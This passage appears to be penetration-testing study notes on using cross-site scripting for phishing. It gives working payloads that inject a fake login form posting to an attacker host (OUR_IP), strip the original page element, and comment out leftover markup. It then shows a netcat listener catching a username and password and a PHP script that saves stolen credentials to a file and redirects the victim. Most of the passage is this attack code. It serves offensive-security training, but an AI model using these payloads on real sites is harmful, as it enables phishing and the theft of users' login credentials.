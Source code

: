 Another very common type of XSS attack is a phishing attack. We can copy their login or build or own login:
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Prepare our XSS payload:
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

In some cases where the code is in the URL we can see that is a mess. Find the **id** of the HTML element we want to remove, we can open the **Page Inspector Picker**. Once we have their id:
```javascript
document.getElementById('id').remove();
```

The final payload will be:
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('id').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed. We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:
```html
PAYLOAD...<!--
```

## Credential Stealing 

If a user try to logging with that form it will recieved the error **This site can’t be reached**, because the form is pointing to our IP. We need to start a netcat server and wait for credentials:
```console
zero@pio$ nc -lvnp 80
...
GET /?username=test&password=test&submit=Login HTTP/1.1 
...
```

We can recreate a PHP form, so the victim is redirect and don't think anything suspicious:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/index.php");
    fclose($file);
    exit();
}
?>
```
